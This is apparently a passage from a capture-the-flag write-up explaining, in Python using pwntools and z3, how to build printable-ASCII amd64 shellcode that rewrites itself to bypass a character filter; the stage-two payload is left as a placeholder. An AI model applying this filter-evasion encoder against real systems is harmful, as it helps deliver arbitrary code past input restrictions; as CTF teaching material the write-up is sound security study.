 ```python
def xlate(code, offset):
    # rdx = ptr to shellcode DON'T CLOBBER ME, i know where you live
    payload = ''

    # zero rsi and rax, clobber r8 and r9
    payload += asm('''
push rsp
pop r9
pop r8
push rsi
xor rsi, [r9]
push rsi
pop rax
''', arch='amd64') # zero eax
    payload += asm('push rax; pop rbx;', arch='amd64') # save zero in rbx for later uses

    payload += set_rdi(offset) # set rdi
    for i in range(0, len(stage2), 4):
        frag = stage2[i:i+4]
        xlate_frag = write4(u32(frag))
        payload += xlate_frag
        print '%s => %s' % (frag.encode('hex'), xlate_frag.encode('hex'))

    return payload

stage2 = asm('''
/* your shellcode here o_O */
''', arch='amd64')
stage2 += '\x90' * (-len(stage2) % 4) # pad
print stage2

# we don't know the size of our xlated shellcode so we'll do a "mock run" to figure that out first.
payload = xlate(stage2, 0)
hdr_len = len(payload)
payload = xlate(stage2, hdr_len)
assert len(payload) == hdr_len
assert is_ok_str(payload)
print len(payload)
assert len(payload) < 4096

print payload
open('shellcode.txt', 'wb').write(payload)
```

A little bit overkill. Most of the size is responsible for incrementing `rdi` by 4 after each dword we write. Unfortunately, there's no way to not inline this since we have no control over our control flow unless we did some crazy self-modifying code...which is exactly what I did.

```python
#!/usr/bin/env python

from pwn import *
from z3 import *
import operator

def is_ok(b):
    return b >= 0x20 and b < 0x80

def is_ok32(i32):
    return reduce(operator.and_, is_ok_str(p32(i32)))

def is_ok_str(s):
    return map(is_ok, map(ord, s))

```